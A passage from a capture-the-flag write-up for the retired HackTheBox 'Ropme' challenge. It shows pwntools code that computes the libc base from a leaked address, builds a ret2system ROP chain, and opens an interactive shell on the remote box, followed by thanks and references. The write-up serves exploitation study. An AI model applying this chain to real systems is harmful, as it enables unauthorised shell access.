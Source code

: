 ```python

libc.address = leaked_puts - libc.symbols['puts']
log.success("Calculated base address of GLIBC_2.2.5: " + hex(libc.address))

# 2nd stage payload (ret2system)
rop2 = ROP(libc)
rop2.system(next(libc.search(b'/bin/sh\x00')) - ropme_only) # - 64 only for this broken challenge
log.info("Stage 2 ROP chain:\n" + rop2.dump())

payload = junk
payload += rop2.chain()

log.progress("Sending 1st stage payload!")
p.recvuntil("ROP me outside, how 'about dah?\n")
p.sendline(payload)

# Drop an interactive shell
log.critical("W00TW00T!")
p.interactive()
```


![11](/HackTheBox-Pwn-Ropme/pwnd.png)


W00TW00T we have a shell on the remote box! Hope you enjoyed my writeup :)

Thanks to HackTheBox and the challenge maker @xero. Please note that this challenge is retired and writeups are permitted.

Hopefully, when I get the time I can do more writeups.

## References 

* https://ctf101.org/binary-exploitation/overview/
* https://wargames.ret2.systems/course
* https://unix.stackexchange.com/questions/466443/do-memory-mapping-segment-and-heap-grow-until-they-meet-each-other
* https://ir0nstone.gitbook.io/notes/
* https://eli.thegreenplace.net/2011/02/04/where-the-top-of-the-stack-is-on-x86/
* https://www.hackthebox.com/home/challenges/Pwn
* https://github.com/niklasb/libc-database
* https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got